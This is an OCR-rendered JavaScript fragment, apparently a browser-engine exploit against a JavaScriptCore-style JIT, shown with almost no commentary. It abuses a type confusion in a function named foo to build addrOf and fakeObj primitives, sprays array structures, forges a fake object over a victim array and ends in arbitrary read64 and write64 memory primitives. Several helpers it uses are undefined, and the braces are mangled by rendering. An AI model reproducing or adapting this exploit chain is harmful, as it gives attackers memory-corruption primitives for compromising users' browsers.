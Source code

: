 ```
var doubleleak;
var objleak;
var fake_addr;
function foo(a)`{`
doubleleak=a.a21;
objleak=a.a5
a.a5=doubleleak;
a.a21=objleak;
`}`
for(let i=0;i&lt;100;i++)`{`
foo(a1)
`}`
function addrOf(obj) `{`
a3[0]=obj
foo(a2);
return f2i(a3[0]);
`}`
function fakeObj(addr) `{`
addr=i2f(addr)
foo(a2)
a4[0]=addr
return a4[0]
`}`
var fake_addr=addrOf(container)+0x10
var structure_spray = [];
for(var i=0; i&lt;1000; i++) `{`
var array = [13.37];
array.a = 13.37;
array['p'+i] = 13.37;
structure_spray.push(array)
`}`
var victim = structure_spray[510];
container.fake_cell=objleak
container.butt=victim
var obj=fakeObj(fake_addr)
var unboxed = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37]
unboxed[0] = 4.2
var boxed = [`{``}`,`{``}`];
obj[1]=unboxed
var tmp_butterfly=victim[1];
obj[1]=boxed;
victim[1]=tmp_butterfly;
function AddrOf(obj)`{`
boxed[0] = obj;
return unboxed[0];
`}`
function FakeObj(addr)`{`
unboxed[0] = addr;
return boxed[0];
`}`
read64 = function (addr) `{`
f64[0] = addr
obj[1] = f64[0]
return victim[0]
`}`
write64 = function (addr, val) `{`
f64[0] = addr
obj[1] = f64[0]
victim[0] = val
`}`
```